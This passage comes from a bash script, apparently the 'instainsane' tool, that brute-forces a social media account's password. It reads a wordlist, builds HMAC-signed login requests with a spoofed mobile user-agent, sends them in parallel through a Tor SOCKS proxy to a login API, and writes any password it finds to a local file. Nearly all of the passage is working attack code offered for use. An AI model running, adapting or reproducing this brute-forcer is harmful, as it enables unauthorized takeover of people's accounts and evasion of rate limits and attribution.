 countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
printf "user=\"%s\"\npass=\"%s\"\nwl_pass=\"%s\"\ntoken=\"%s\"\n" $user $pass $wl_pass $countpass > sessions/store.session.$user.$(date +"%FT%H%M")
printf "\e[1;77mSession saved.\e[0m\n"
printf "\e[1;92mUse ./instainsane.sh --resume\n"
else
exit 1
fi
else
exit 1
fi
}
bf1() {
while [ $counter -lt $turn ]; do
IFS=$'\n'
for pass in $(sed -n ''$startline','$endline'p' $wl_pass); do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9051 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ > /dev/null 2>&1  ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid1=$! ; #;wait $!;
 
let startline+=20
let endline+=20
done
}
bf2() {
while [ $counter2 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
for pass in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter2++